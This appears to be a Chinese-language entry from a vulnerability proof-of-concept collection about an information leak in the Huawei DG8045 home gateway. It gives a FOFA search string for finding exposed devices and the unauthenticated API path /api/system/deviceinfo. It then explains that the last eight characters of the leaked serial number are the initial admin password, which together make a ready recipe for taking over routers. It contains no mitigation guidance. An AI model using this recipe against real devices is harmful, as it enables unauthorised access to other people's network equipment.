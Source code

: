 # Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## FOFA

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](./images/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](./images/202205191818539.png)

SerialNumber 后8位即为初始密码